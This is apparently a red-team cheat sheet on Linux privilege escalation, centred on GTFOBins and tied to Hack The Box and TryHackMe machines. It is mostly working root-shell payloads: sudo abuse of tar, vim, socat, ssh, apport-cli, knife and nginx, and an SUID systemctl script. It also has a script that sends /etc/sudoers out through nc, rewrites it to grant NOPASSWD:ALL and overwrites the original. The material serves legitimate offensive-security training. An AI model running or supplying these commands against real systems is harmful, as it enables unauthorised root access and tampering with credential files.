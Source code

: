 # GTFOBins

<div class="row row-cols-lg-2"><div>

[GTFOBins](https://gtfobins.github.io/) <small>(10.0k ⭐)</small> a.k.a. "Get The Fuck Out" is a list of way to exploit binaries such as `sed`/`tar`/... to get a higher level of privileges.

Common use cases are:

* [Binary was given SUID/GUID permissions](/cybersecurity/red-team/s4.privesc/linux/topics/perms.md#suidguid-bit)
* [Binary was given capabilities](/cybersecurity/red-team/s4.privesc/linux/topics/perms.md#capabilities)
* [User was granted sudo permission to binary](/cybersecurity/red-team/s4.privesc/linux/topics/sudo.md)
* ...

Note that not every exploit may pop a shell. Some only allow you to edit some files, which may help getting root.
</div><div>

**Example** 🔥

You can only run `tar` using `sudo`. Run the command below from [GTFOBins](https://gtfobins.github.io/gtfobins/tar/#sudo), and you will get a root shell.

```ps
$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

➡️ You can use [GTFOBLookup](https://github.com/nccgroup/GTFOBLookup) <small>(0.2k ⭐)</small> for offline browsing.

➡️ You may need/want to create a [root bash](/cybersecurity/red-team/s4.privesc/linux/utils/rootbash.md).
</div></div>

<hr class="sep-both">

## ⚡ SUID `systemctl` script

Description: this script makes it easier to run several commands using `systemctl`.

<div class="row row-cols-md-2 mt-4"><div>

Create a file `script.sh` with the contents below

```ps
TF=$(mktemp).service
echo "[Service]
Type=oneshot
ExecStart=/bin/sh -c '$@ > /tmp/output'
[Install]
WantedBy=multi-user.target" > $TF
systemctl -f link $TF
systemctl -f enable --now $TF
cat /tmp/output
```
</div><div>

Calls

```ps
$ chmod +x script.sh
$ ./script.sh id
$ ./script.sh ls -laR /root
```
</div></div>

<hr class="sep-both">

## ⚡ SUDO `wget` script

Description: this script automate privilege escalation using `wget`.

<div class="row row-cols-lg-2"><div class="align-self-center">

It's quite easy to do it manually, but you need two machines (ex: your VM and the target). This script is complex because everything is done locally, without interacting with your VM!

* Will use `wget` to fetch `/etc/sudoers` and `nc` to grab the result

* Then, it will replace the line giving access to `wget` and give you the permission to run every command as root

* Then, we will start a python web server, and use `wget` with `-o` to replace our new sudo file with the tampered one.

* Finally, the script run `sudo bash` and open your shell as root

⚠️ The script may mess with your [sudoers](/operating-systems/linux/env/files/index.md#etcsudoers) file if something goes wrong. I destroyed my VM 7 times before managing to make the script work 🌳. If you understand the commands used in the script, use them one by one, and check the tampered sudoers file (output) BEFORE overriding the current one.
</div><div>

```bash!
file=/etc/sudoers
port=4444
# todo: use mktemp
output=stolenfile

# Working in /tmp
cd /tmp
# -d and -q 0 to quit when connection is closed
nc -dlnp $port -q 0 > $output &
# -q = quiet, and -T 1 = close after one second
sudo wget -q --post-file=$file localhost:$port -T 1
# remove the HTTP headers
sed -i '1,9d' $output
# replace the command with find
sed -i "s/\($(whoami).*\)/$(whoami)  ALL=(ALL) NOPASSWD:ALL/g" $output
# create a web server
python3 -m http.server $port &
pid=$(echo $!)
sleep 1 # let the webserver start
# get the file then kill the webserver
# replace /etc/sudoers
sudo wget -q localhost:$port/$output -O $file && kill $pid
# open the root shell
sudo bash
```
</div></div>

<hr class="sep-both">

## Random Payloads

<div class="row row-cols-lg-2"><div>

If we are allowed to run a command as sudo:

* Common commands

```ps
$ sudo vim -c ':!/bin/sh'
$ sudo socat stdin exec:/bin/bash
$ sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```

* [apport-cli](https://manpages.ubuntu.com/manpages/focal/en/man1/apport-cli.1.html) 2.26.0 and earlier has a vulnerability ([CVE-2023-1326](https://nvd.nist.gov/vuln/detail/CVE-2023-1326)) 

[![devvortex](../../../../_badges/htb-p/devvortex.svg)](https://app.hackthebox.com/machines/Devvortex)

```ps
$ sudo /usr/bin/apport-cli --file-bug
> 1
> 2
> F # any key
> V # view report (open less)
:!/bin/bash
```

* `/usr/bin/systemctl status xxx.service`
* `/bin/systemctl daemon-reload`

[![attacking_common_applications](../../../../_badges/htb/attacking_common_applications.svg)](https://academy.hackthebox.com/course/preview/attacking-common-applications)
[![vulnnet_node](../../../../_badges/thm-p/vulnnet_node.svg)](https://tryhackme.com/r/room/vulnnetnode)
[![sau](../../../../_badges/htb-p/sau.svg)](https://app.hackthebox.com/machines/Sau)

While it may be secure, if a reader is opened, such as `less`, it may be leveraged to run commands e.g. using `!/bin/bash` for `less`.

Otherwise, if you can reload services, then find if there is a service you can edit, edit it, and reload them.

* gcc special usages

```shell!
$ gcc -x c /etc/passwd             # read file
$ gcc -Xlinker -o/tmp/denylist.txt # delete file
```
</div><div>

* `/usr/bin/knife`: [knife](http://manpages.ubuntu.com/manpages/bionic/man1/knife.1.html) can be exploited in many ways

[![knife](../../../../_badges/htb-p/knife.svg)](https://app.hackthebox.com/machines/Knife)

```ps
$ sudo knife environment edit _default -e vim # -> sudo vim
$ sudo knife environment edit _default -e rootbash.sh
$ sudo knife exec --exec "exec '/bin/sh -i'"
$ echo -n 'exec "/bin/bash -i"' > config.rb
$ sudo knife user list -c config.rb
```

* `nginx` can be used to read files. It may also be used to write files using `dav_methods PUT;`. For instance, adding an entry in authorized keys or sudoers.

[![broker](../../../../_badges/htb-p/broker.svg)](https://app.hackthebox.com/machines/Broker)

```ps
$ cat $(pwd)/test.conf
user root;
# each URL is injected in LD PRELOAD
# leading to the execution of junk then our custom .so
# error_log /etc/ld.so.preload warn;
events {
    worker_connections 1024;
}
http {
    server {
       listen 80;
       root /;
       autoindex on;
       # dav_methods PUT;
    }
}
$ sudo /path/to/nginx -s stop
$ sudo /path/to/nginx -c $(pwd)/test.conf
```
</div></div>